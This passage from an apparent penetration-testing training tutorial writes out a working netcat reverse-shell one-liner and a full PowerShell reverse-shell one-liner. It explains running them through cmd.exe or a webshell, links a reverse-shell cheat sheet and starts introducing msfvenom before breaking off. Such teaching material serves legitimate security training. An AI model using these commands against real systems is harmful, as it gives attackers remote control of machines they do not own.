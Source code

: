 A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one,
other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a modern Windows Server,
it is very common to require a Powershell reverse shell,
so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be
explained directly here.
It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace **"IP"** and **"port"** with an
appropriate IP and choice of port.
It can then be copied into a cmd.exe shell (or another method of executing
commands on a Windows server, such as a webshell) and executed,
resulting in a reverse shell:

For other common reverse shell payloads,
[Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
is a repository containing a wide range of shell codes
(usually in one-liner format for copying and pasting), in many different languages.
It is well worth reading through the linked page to see what's available.

## msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for,
primarily reverse and bind shells.
It is used extensively in lower-level exploit development to generate hexadecimal
shellcode when developing something like a Buffer Overflow exploit;
however, it can also be used to generate payloads in various formats
(e.g. `.exe`, `.aspx`, `.war`, `.py`).
It's this latter function that we will be making use of in this room.
There is more to teach about msfvenom than could ever be fit into a single room,
let alone a single task, so the following information will be a brief
introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
